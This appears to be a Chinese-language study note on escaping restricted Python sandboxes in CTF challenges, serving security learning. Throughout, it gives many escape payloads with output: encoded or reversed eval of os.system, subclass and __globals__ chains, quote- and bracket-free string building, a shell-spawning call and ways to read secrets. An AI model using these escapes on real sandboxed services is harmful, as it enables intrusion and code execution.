








[TOC]

[一文看懂Python沙箱逃逸 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/203208.html)

python沙箱逃逸（pyjail），是CTF中一类题的通称：在这些题目中，我们能够交互式地用`eval`或者`exec`执行python代码。然而，执行的代码和上下文均受到一定限制，如题目用正则表达式拒绝部分字符的输入、以及令`__builtins__=None`等。在正式开始介绍pyjail题目的解法之前，让我们先复习一下python的一些特性：

- 在python中，类均继承自`object`基类；
- python中类本身具有一些静态方法，如`bytes.fromhex`、`int.from_bytes`等。对于这些类的实例，也能调用这些静态方法。如`b'1'.fromhex('1234')`，返回`b'\x124'`。（一个特殊的例子是整数常量不支持这样操作，如输入`3.from_bytes`会报错）
- python中的类还具有一系列的魔术方法，这个特性可以对比php的魔术方法，以及C++的运算符重载等。一些函数的实现也是直接调用魔术方法的。常用的魔术方法有这些，更多可参考[这里](https://www.bing.com/search?q=python魔术方法&form=ANNTH1&refig=a9a53b48d6164751abc23a6515e40220)
- 相对应地，python的类中也包含着一些魔术属性：
  - `__dict__`：可以查看内部所有属性名和属性值组成的字典。
  - `__doc__`：类的帮助文档。默认类均有帮助文档。对于自定义的类，需要我们自己实现。
- 以及还有一些重要的内置函数和变量：
  - `dir`：查看对象的所有属性和方法。在我们没有思路的时候，可以通过该函数查看所有可以利用的方法；此外，在题目禁用引号以及小数点时，也可以先用拿到类所有可用方法，再索引到方法名，并且通过`getattr`来拿到目标方法。
  - `getattr()`：用于获取对象的属性或方法。`getattr(object, name[, default])`
  - `chr`、`ord`：字符与ASCII码转换函数，能帮我们绕过一些WAF
  - `globals`：返回所有全局变量的函数；
  - `locals`：返回所有局部变量的函数；
  - `__import__`：载入模块的函数。例如`import os`等价于`os = __import__('os')`；
  - `__name__`：该变量指示当前运行环境位于哪个模块中。如我们python一般写的`if __name__ == '__main__':`，就是来判断是否是直接运行该脚本。如果是从另外的地方import的该脚本的话，那`__name__`就不为`__main__`，就不会执行之后的代码。
  - `__builtins__`：包含当前运行环境中默认的所有函数与类。如上面所介绍的所有默认函数，如`str`、`chr`、`ord`、`dict`、`dir`等。在pyjail的沙箱中，往往`__builtins__`被置为`None`，因此我们不能利用上述的函数。所以一种思路就是我们可以先通过类的基类和子类拿到`__builtins__`，再`__import__('os').system('sh')`进行RCE；
  - `__file__`：该变量指示当前运行代码所在路径。如`open(__file__).read()`就是读取当前运行的python文件代码。需要注意的是，**该变量仅在运行代码文件时会产生，在运行交互式终端时不会有此变量**；
  - `_`：该变量返回上一次运行的python语句结果。需要注意的是，**该变量仅在运行交互式终端时会产生，在运行代码文件时不会有此变量**。

### 花式 import

1. `import os`可以，中间的空格输入几个都可以，`import   os`

2. `__import__`：`__import__('os')`

3.  `importlib`：`importlib.import_module('os').system('ls')`

4. 也可以直接执行一遍需要导入的库进行导入

   `Python2.x`

   ```python
   execfile('/usr/lib/python2.7/os.py')
   system('ls')
   ```

   `Python2.x`和`Python3.x`通用

   ```python
   with open('/usr/lib/python3.9/os.py') as f:
       exec(f.read())
   system('ls')
   ```

   不过要使用上面的这两种方法，就必须知道库的路径。其实在大多数的环境下，库都是默认路径。如果 `sys `没被干掉的话，还可以确认一下

   ```python
   import sys
   print(sys.path)
   ```

### 花式处理字符串

倒置，base编码，hex，字符串拼接，rot13等等，再通过利用`eval`或者`exec`

- `__import__('so'[::-1]).system('dir')`
- `eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])`
- `eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Rpcicp').decode('utf-8'))`
- `eval(b'1'.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `eval(bytes.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `a='o';b='s';__import__(a+b).system('dir')`

### sys.modules

`sys.modules` 是一个字典，里面储存了加载过的模块信息。如果 Python 是刚启动的话，所列出的模块就是解释器在启动时自动加载的模块。有些库例如 `os` 是默认被加载进来的，但是不能直接使用，原因在于 sys.modules 中未经 import 加载的模块对当前空间是不可见的。

如果将 os 从 sys.modules 中剔除，os 就彻底没法用了：



注意，这里不能用 `del sys.modules['os']`，因为，当 import 一个模块时：import A，检查 sys.modules 中是否已经有 A，如果有则不加载，如果没有则为 A 创建 module 对象，并加载 A。

所以删了 `sys.modules['os']` 只会让 Python 重新加载一次 os。

看到这你肯定发现了，对于上面的过滤方式，绕过的方式可以是这样：



### builtins、**builtin**与\_\_builtins\_\_

`builtins`，`__builtin__`与`__builtins__`的区别：首先我们知道，在 Python 中，有很多函数不需要任何 import 就可以直接使用，例如`chr`、`open`。之所以可以这样，是因为 Python 有个叫`内建模块`（或者叫内建命名空间）的东西，它有一些常用函数，变量和类。Python 对函数、变量、类等等的查找方式是按 `LEGB` 规则来找的，其中 B 即代表内建模块

>**LEGB 规则**
>
>Python 在查找“名称”时，是按照 LEGB 规则查找的：`Local-->Enclosed-->Global-->Built in`
>
>- Local 指的就是函数或者类的方法内部
>- Enclosed 指的是嵌套函数（一个函数包裹另一个函数，闭包）
>- Global 指的是模块中的全局变量
>- Built in 指的是 Python 为自己保留的特殊名称。
>
>如果某个 name 映射在局部(local)命名空间中没有找到，接下来就会在闭包作用域(enclosed)进行搜索，如果闭包作用域也没有找到，Python 就会到全局(global)命名空间中进行查找，最后会在内建(built-in)命名空间搜索 （如果一个名称在所有命名空间中都没有找到，就会产生一个 NameError）。
>
>```python
># 测试 LEGB
>
>str = "global"
>
>
>def outer():
>    str = "outer"
>
>    def inner():
>        # 输出inner，这里的str被注释掉之后就会输出outer，outer被注释掉之后就会输出global
>        str = "inner"
>        print(str)
>
>    inner()
>
>
>outer()
>```

###### `builtins`与`__builtin__`关系：

在Python2.X版本中，内建模块被命名为`__builtin__`，而到了Python3.X版本中，却更名为`builtins`，二者指的都是同一个东西，只是名字不同而已。

当使用内建模块中函数，变量和类等功能时，可以直接使用，不用添加内建模块的名字，也不用手动导入内建模块。但是，如果想要向内建模块修改或者添加一些功能，以便在程序其他地方使用时， 这时需要手动import。

2.x：

```
>>> import __builtin__
>>> __builtin__
<module '__builtin__' (built-in)>
```

3.x：

```
>>> import builtins
>>> builtins
<module 'builtins' (built-in)>
```

###### `__builtins__`

`__builtins__`同时存在于Python2.X和Python3.X中，简单地说，它就是对内建模块一个引用。

- `__builtins__`就是内建模块的一个引用。

- 虽然是一个引用，但`__builtins__`和内建模块是有一点区别的：

  1. 要想使用内建模块，都必须手动import内建模块，而对于`__builtins__`却不用导入，它在任何模块都直接可见， 有些情况下可以把它当作内建模块直接使用。

  2. `__builtins__`虽是对内建模块的引用，但这个引用要看是使用`__builtins__`的模块是哪个模块
     在主模块\_\_main\_\_中：
     `__builtins__`是对内建模块`__builtin__`本身的引用，即`__builtins__`完全等价于`__builtin__`，二者完全是一个东西，不分彼此。此时，`__builtins__`的类型是模块类型。

     在非\_\_main\_\_模块中：
     `__builtins__`仅是对`__builtin__.__dict__`的引用，而非`__builtin__`本身。它在任何地方都可见。此时`__builtins__`的类型是字典。

     [具体效果可以查看该demo](./demo/SSTIdemo/SSTIclassdemo.py)
     

###### 利用

不管怎么样，`__builtins__` 相对实用一点，并且在 `__builtins__`里有很多好东西：

```python
>>> '__import__' in dir(__builtins__)
True
>>> 'eval' in dir(__builtins__)
True
>>> 'exec' in dir(__builtins__)
True
>>> 'open' in dir(__builtins__)
True
```



```
>>> __builtins__.__dict__['eval']("print('aabbccd')")
aabbccd
>>> __builtins__.exec("import os\nos.system('dir')")
 驱动器 C 中的卷是 Windows-SSD
 卷的序列号是 DC5D-17E8

 C:\Users\Lenovo 的目录
```



那么既然`__builtins__`有这么多危险的函数，不如将里面的危险函数破坏了：

```
__builtins__.__dict__['eval'] = 'not allowed'
```

或者直接删了：

```
del __builtins__.__dict__['eval']
```

但是我们可以利用 `reload(__builtins__)` 来恢复 `__builtins__`。不过，我们在使用 `reload` 的时候也没导入，说明`reload`也在 `__builtins__`里，那如果连`reload`都从`__builtins__`中删了，就没法恢复`__builtins__`了，需要另寻他法。

3.8 3.9 经测试已经无法恢复，2.7 可以



这里注意，在 Python 3.4 之前的版本中，`reload()` 函数是一个内置函数，3.4之后需要 `import imp`，然后再 `imp.reload`，从 Python 3.4 之后，建议使用 `importlib` 模块中的 `importlib.reload()` 函数来重新加载模块，因为 `imp` 模块在未来的版本中可能会被移除。

### 花式执行函数

在 Python 中执行系统命令的方式有：

```
os
commands：仅限2.x
subprocess
timeit：timeit.sys、timeit.timeit("__import__('os').system('whoami')", number=1)
platform：platform.os、platform.sys、platform.popen('whoami', mode='r', bufsize=-1).read()
pty：pty.spawn('ls')、pty.os
bdb：bdb.os、cgi.sys
cgi：cgi.os、cgi.sys
...
```

通过上面内容我们很容易发现，光引入`os`只不过是第一步，如果把`system`这个函数干掉，也没法通过`os.system`执行系统命令，并且这里的`system`也不是字符串，也没法直接做编码等等操作。

不过，要明确的是，os 中能够执行系统命令的函数有很多：

```
print(os.system('whoami'))
print(os.popen('whoami').read()) 
print(os.popen2('whoami').read()) # 2.x
print(os.popen3('whoami').read()) # 2.x
print(os.popen4('whoami').read()) # 2.x
...
```

应该还有一些，可以在这里找找：

[2.x 传送门](https://docs.python.org/2/library/os.html)

[3.x 传送门](https://docs.python.org/3/library/os.html)

过滤`system`的时候说不定还有其他函数给漏了。

其次，可以通过 `getattr` 拿到对象的方法、属性：

```
import os
getattr(os, 'metsys'[::-1])('whoami')
```

不让出现 import也没事：

```
>>> getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')
desktop-13qds1a\lenovo
0
```

与 `getattr` 相似的还有 `__getattr__`、`__getattribute__`，它们自己的区别就是`getattr`相当于`class.attr`，都是获取类属性/方法的一种方式，在获取的时候会触发`__getattribute__`，如果`__getattribute__`找不到，则触发`__getattr__`，还找不到则报错。更具体的这里就不解释了，下面有。

### 通过继承关系逃逸

*[这里](#Python中的一些 Magic Method)

Python 中有个属性，`.__mro__` 或 `.mro()`，是个元组，记录了继承关系：

```
>>> '1'.__class__.mro()
[<class 'str'>, <class 'object'>]
>>> '1'.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

类的实例在获取 `__class__` 属性时会指向该实例对应的类。可以看到，`''`属于 `str`类，它继承了 `object` 类，这个类是所有类的超类。具有相同功能的还有`__base__`和`__bases__`。需要注意的是，经典类需要指明继承 object 才会继承它，否则是不会继承的（Python 3.9 测试无需指明）

那么知道这个有什么用呢？

由于没法直接引入 os，那么假如有个库叫`oos`，在`oos`中引入了`os`，那么我们就可以通过`__globals__`拿到 `os`。例如，`site` 这个库就有 `os`：

```
>>> __import__('site').os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
```

`__globals__` 是函数所在的全局命名空间中所定义的全局变量。也就是只要是函数就会有这个属性。注意，`__globals__`调用的是当前全局命名空间中的变量，不是类中的变量


>1. `builtin_function_or_method` 类型函数：
>   - `builtin_function_or_method` 是 Python 中内置函数（built-in functions）的类型，这些函数是 Python 解释器内置的一些常用功能函数，例如 `print()`、`len()`、`range()` 等。
>2. `wrapper_descriptor` 类型函数：
>   - `wrapper_descriptor` 是 Python 中的描述符（descriptor）类型，它是用于实现特定属性访问逻辑的一种对象。通常，它是由类的特殊方法（如 `__get__()`、`__set__()` 等）定义的。
>3. `method-wrapper` 类型函数：
>   - `method-wrapper` 是 Python 中包装（wrapper）方法的类型。当类的方法被调用时，Python 会自动创建一个 `method-wrapper` 对象来包装该方法，从而提供额外的功能或处理。
>4. `method_descriptor`:
>   - 表示 Python 内置方法（built-in methods）的类对象。注意，不是实例，个人理解为是内建函数的类，将其实例化后成为内建函数`builtin_function_or_method` 类型函数
>   - 这些内置方法是针对不同类型的内置对象提供的方法，可以在对应的对象上直接调用。
>   - 内置方法与特定的数据类型相关，比如字符串类型的方法 `str.upper()`、`str.lower()`，列表类型的方法 `list.append()`、`list.pop()`，字典类型的方法 `dict.get()`、`dict.keys()` 等。
>
>关于`method_descriptor`:
>
>原理：
>
>```reasonml
>class C:
>    def method(self, arg):
>        print "In C.method, with", arg
>
>o = C()
>o.method(1)
>C.method(o, 1)
># Prints:
># In C.method, with 1
># In C.method, with 1
>```
>
>`o.method(1)` 可以看作是 `C.method(o, 1)`的简写。

能引入 site 的话，就相当于有 os。

那么也就是说，能引入 site 的话，就相当于有 os。那如果 site 也被禁用了呢？没事，本来也就没打算直接 `import site`。可以利用 `reload`，变相加载 `os`：

```
>>> import site
>>> site.os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
>>> del site.os
>>> site.os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: module 'site' has no attribute 'os'
>>> __import__('importlib').reload(site)
<module 'site' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\site.py'>
>>> site.os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
>>>
```

所有的类都继承的`object`，那么我们先用`__subclasses__`看看它的子类，在子类中选择出可以利用的类。

学习通过列表推导式执行

```
[i.load_module('os').system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == 'BuiltinImporter']
```

利用`builtin_function_or_method` 的 `__call__`，首先需要找到`builtin_function_or_method`类型的函数，也就是内建函数

```
''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['len'].__class__.__call__(eval, '1+1')

>>> "".__class__.__mro__[-1].__subclasses__()[22]().strip.__class__.__call__(eval, '__import__("os").system("whoami")')
desktop-13qds1a\lenovo
0

简单一点的paylaod
>>> ''.strip.__class__
<class 'builtin_function_or_method'>
>>> ''.strip.__class__.__call__(eval, '1+2')
3
```

### 文件读写

2.x 有个内建的 `file`：

```
>>> file('key').read()
'Macr0phag3\n'
>>> file('key', 'w').write('Macr0phag3')
>>> file('key').read()
'Macr0phag3'

DELPHI
```


还有个 `open`，2.x 与 3.x 通用。

还有一些库，例如：`types.FileType`(rw)、`platform.popen`(rw)、`linecache.getlines`(r)。

如果能写，可以将类似的文件保存为`math.py`，然后 import 进来：
math.py：

```
print(__import__('os').system('whoami'))
```

调用`import math`

这里需要注意的是，这里 py 文件命名是有技巧的。之所以要挑一个常用的标准库是因为过滤库名可能采用的是白名单。并且之前说过有些库是在`sys.modules`中有的，这些库无法这样利用，会直接从`sys.modules`中加入，比如`re`：

```
>>> 're' in __import__('sys').modules
True
>>> 'math' in __import__('sys').modules
False
```

这里的文件命名需要注意的地方：由于待测试的库中有个叫 `test`的，如果把测试的文件也命名为 test，会导致那个文件运行 2 次，因为自己 import 了自己。

math.py

```
import math

...
```

获取敏感信息：

1. `dir()`
2. `__import__("__main__").x`，其中 `__main__` 还会泄露脚本的绝对路径：`<module '__main__' from 'xxx.py'>`
3. `__file__`，文件绝对路径
4. `x.__dict__`
5. `locals()`
6. `globals()`
7. `vars()`
8. `sys._getframe(0).f_code.co_varnames`
9. `sys._getframe(0).f_locals`
10. `inspect.x`，inspect 有很多方法可以获取信息，比如获取源码可以用 `inspect.getsource`，还有其他很多的功能
11. 

### 绕waf

>`__getitem__` 是 Python 中的特殊方法之一，用于支持对象的索引操作。当一个对象定义了 `__getitem__` 方法时，它就可以像序列（如列表、元组等）一样进行索引和切片操作。
>
>在 Python 中，我们通常使用方括号 `[]` 来对序列类型的对象进行索引操作。例如，对于列表 `my_list`，我们可以使用 `my_list[index]` 来获取列表中指定索引位置的元素。当 `my_list` 定义了 `__getitem__` 方法时，这个索引操作就会调用对象的 `__getitem__` 方法，来实现对元素的获取。

>`__new__` 是 Python 中的一个特殊方法，用于创建类的实例（对象）。它是一个静态方法，负责在对象创建之前分配内存空间，并返回一个新的实例。
>
>在 Python 中，对象的创建通常是通过调用类的构造函数 `__init__` 实现的。`__init__` 方法用于对实例进行初始化操作，而 `__new__` 方法则用于实际的对象创建。
>
>当我们创建一个类的实例时，Python 解释器会首先调用 `__new__` 方法来创建一个新的实例对象，并将该实例对象作为第一个参数传递给 `__init__` 方法。然后，`__init__` 方法在这个实例对象上执行初始化操作。

###### 过滤[]

应对的方式就是将`[]`的功能用`pop`、`__getitem__` 代替（实际上`a[0]`就是在内部调用了`a.__getitem__(0)`）：

```
>>> "".__class__.__mro__[-1].__subclasses__()[7].__new__.__class__.__call__(eval, "1+1")
2
>>> "".__class__.__mro__.__getitem__(-1).__subclasses__().pop(7).__new__.__class__.__call__(eval, "1+1")
2
```

dict 也是可以 pop 的：`{"a": 123}.pop("a")`，也可以`dict.get(key, default)`

```
>>> {'a': 123}.pop('a')
123
>>> {'a': 123}.get('a')
123
>>> {'a': 123}.get('b', 456)
456
```

当然也可以用 `next(iter())` 替代，或许可以加上 `max` 之类的玩意。

```
>>> max(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1'])
'csdzxc'
>>> next(iter(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1']))
'1'
>>> min(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1'])
'-1'
```

###### **过滤引号**

**`chr()`：将一个Unicode编码对应的整数值转换为对应的字符，直接用chr把字符串拼出来**

```
>>> __import__('os').system(chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105))
desktop-13qds1a\lenovo
0
```

**扣字符：挨个把字符拼接出来，利用 `str` 和 `[]`**

```
>>> __import__('os').system(str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3])
desktop-13qds1a\lenovo
0
>>> str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3]
'whoami'
```

`[]` 如果被过滤了也可以bypass，`str`被过滤了就用class给他构造出来，`''.__class__()`、`type('')()`、`format()` 即可，同理，`int`、`list` 有的也都是适用，可以通过`.__class__()`、`type('')()`构造出来。

```
>>> format(1,'d')
'1'
>>> format(11,'x')
'b'
>>> format(10,'x')
'a'
>>> chr(100).__class__(chr(100).__class__.__new__)
'<built-in method __new__ of type object at 0x00007FF803385140>'
>>> chr(100).__class__(chr(100).__class__.__new__).__getitem__(14)
'o'
```

也可以使用列表的 `join()` 方法来连接列表中的元素成为一个字符串

**格式化字符串：那过滤了引号，格式化字符串还能用吗？**

`(chr(37)+str({}.__class__)[1])%100 == 'd'`

`('%c') % 100` 是一个字符串格式化操作，它将整数 `100` 格式化为一个字符，并返回相应的字符。，`'%c'` 是一种格式指令，用于格式化一个整数为对应的字符。整数 `100` 对应的字符是 ASCII 表中的字符 'd'。

```
>>> chr(37)
'%'
>>> chr(37)+str({}.__class__)[1]
'%c'
>>> (chr(37)+str({}.__class__)[1])%100
'd'
```

**dict拿键**

`'whoami' == list(dict(whoami=1))[0] == str(dict(whoami=1))[2:8]`

```
>>> dict(whoami=1).keys()
dict_keys(['whoami'])
>>> ''.__class__(dict(whoami=1).keys())
"dict_keys(['whoami'])"
>>> repr(dict(whoami=1).keys())
"dict_keys(['whoami'])"
>>> list(dict(whoami=1).keys()).pop()
'whoami'
```